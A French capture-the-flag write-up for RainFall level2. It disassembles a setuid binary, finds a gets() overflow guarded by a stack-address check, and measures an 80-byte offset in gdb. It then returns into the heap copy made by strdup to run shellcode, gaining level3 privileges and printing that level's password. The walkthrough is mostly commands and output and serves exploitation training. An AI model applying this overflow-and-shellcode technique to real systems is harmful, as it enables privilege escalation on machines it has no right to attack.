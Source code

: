 On a un binaire avec le flag setuid
```sh
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```
On désassemble
```sh
level2@RainFall:~$ objdump -d intel  ./level2 -M intel
080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4]
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    eax,0x8048620
 804850c:	8b 55 f4             	mov    edx,DWORD PTR [ebp-0xc]
 804850f:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048513:	89 04 24             	mov    DWORD PTR [esp],eax
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
 8048527:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804852a:	89 04 24             	mov    DWORD PTR [esp],eax
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
 8048532:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048535:	89 04 24             	mov    DWORD PTR [esp],eax
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave  
 804853e:	c3                   	ret    

0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave  
 804854b:	c3                   	ret    
 804854c:	90                   	nop
 804854d:	90                   	nop
 804854e:	90                   	nop
 804854f:	90                   	nop
```
On remarque l'appel à **fflush**, **gets**, **puts** et **strdup**. La fonction p est intéressante. Elle est appelé par main et utilise la fonction gets dont nous savons qu'elle est vulnérable aux attaques buffer overflow.
Cependant il y a un contrôle:
```asm
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
```
Il semble vérifier si **eax** contient une adresse appartenant à la plage 0xb0000000 - 0xbfffffff, qui correspond à la plage des adresses du Kernel ou de la Stack.
Étant donné qu'il n'y a pas de fonction cachée avec un appel à **system** comme dans **level1**, nous devrons injecter la nôtre.
Nous allons d'abord essayer de détourner le registre de retour **eax** pour exploiter la vulnérabilité de **gets**. L'adresse de retour sera celle du buffer de **gets**, et le buffer contiendra du **shellcode**.
Nous utilisons la même tactique que pour **level1** afin de déterminer l'offset :
```sh
level2@RainFall:~$ python /tmp/pattern3.py
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) b *0x0804854b
Breakpoint 3 at 0x804854b
(gdb) c
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) quit
A debugging session is active.

        Inferior 1 [process 12242] will be killed.

Quit anyway? (y or n) y
level2@RainFall:~$ python /tmp/pattern3.py > /tmp/2.txt
level2@RainFall:~$ python /tmp/pattern3.py /tmp/2.txt 0x37634136
offset found at: 80
```
On a trouvé un offset à 80 octets. Essayons d'injecter le **shelcode** à l'adresse de retour:
```sh
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
=> 0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```
On veut le buffer de retour, donc on met un break point après l'appel a **gets**: 0x080484f2 
```sh
(gdb) b *0x080484f2
Breakpoint 3 at 0x80484f2
(gdb) s
Single stepping until exit from function p,
which has no line number information.
aaaaaaa

Breakpoint 3, 0x080484f2 in p ()
(gdb) i r
eax            0xbffff6dc       -1073744164
ecx            0xb7fd28c4       -1208145724
edx            0xbffff6dc       -1073744164
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6c0       0xbffff6c0
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x80484f2        0x80484f2 <p+30>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
Dans eax le buffer est à 0xbffff6dc, essayond 'injecter ici.
Le shellcode fait 21 octets, la limite est de 80, donc le payload est constitué de 21 octets + 59 octets random + 4 octets pour l'adresse, soit 80 octets au total.
```sh
level2@RainFall:~$ python /tmp/exploit3.py  0xbffff6dc 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

(0xbffff6dc)

```
Cela a échoué parce que nous ne pouvons pas écrire sur la Stack, mais sur la Heap, cela semble fonctionner. strdup renvoie l'adresse suivante :
```sh
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                       = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
TEST!
)                                        = 0xbffff6fc
puts("TEST!"
TEST!
)                                        = 6
strdup("TEST!")                          = 0x0804a008
+++ exited (status 8) +++
```
Nous réessayons avec cette adresse allouée par **malloc**:
```sh
level2@RainFall:~$ python /tmp/exploit3.py  0x0804a008 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Flag!